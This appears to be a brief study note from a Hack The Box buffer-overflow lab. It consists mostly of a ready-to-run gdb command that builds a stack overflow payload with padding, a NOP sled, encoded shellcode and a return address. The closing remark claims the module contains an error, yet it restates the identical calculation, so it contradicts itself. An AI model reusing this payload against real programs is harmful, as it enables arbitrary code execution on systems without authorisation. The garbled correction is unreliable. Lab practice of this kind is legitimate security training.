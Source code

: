 ## Stack based buffer overflow
```nasm
run $(python -c 'print "\x55" * 817 + "\x90" * 124 + "\xda\xd6\xd9\x74\x24\xf4\xbd\xad\xe4\xfa\x61\x58\x29\xc9\xb1\x12\x83\xc0\x04\x31\x68\x13\x03\xc5\xf7\x18\x94\x24\x23\x2b\xb4\x15\x90\x87\x51\x9b\x9f\xc9\x16\xfd\x52\x89\xc4\x58\xdd\xb5\x27\xda\x54\xb3\x4e\xb2\x19\x43\xb1\x43\x8e\x41\xb1\x39\x27\xcf\x50\x0d\xd1\x9f\xc3\x3e\xad\x23\x6d\x21\x1c\xa3\x3f\xc9\xf1\x8b\xcc\x61\x66\xfb\x1d\x13\x1f\x8a\x81\x81\x8c\x05\xa4\x95\x38\xdb\xa7" + "\x4c\xd6\xff\xff"')
 ``` 
![Pasted image 20211212185019](https://user-images.githubusercontent.com/87600765/146056009-8a100748-3245-4639-af9c-451f82e6ed79.png)

 I also realized that HTB did an error in their module. They wrote: 
 ```shell-session
Buffer = "\x55" * (1040 - 124 - 95 - 4) = 817
```
But 1040 - 124 - 95 - 4 = 817 so be sure to put 817.

